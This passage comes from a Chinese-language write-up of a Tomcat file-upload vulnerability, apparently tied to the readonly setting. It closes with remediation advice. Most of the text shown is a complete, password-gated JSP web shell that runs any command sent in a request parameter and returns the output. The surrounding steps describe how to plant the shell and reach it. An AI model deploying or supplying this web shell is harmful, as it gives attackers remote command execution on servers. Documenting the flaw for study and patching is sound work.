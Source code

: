 ```java
<%@ page language="java" import="java.util.,java.io." pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

### 4.3 任意命令执行

​	点击go按钮，创建一句话木马文件，创建成功后，访问相应文件，执行任意命令：

![Tomcat](imgs/14.png)

## 5. 修复方案

* 使用tomcat8及以上版本
* 在web.xml文件中将readonly参数删掉，或者将readonly参数设置为true
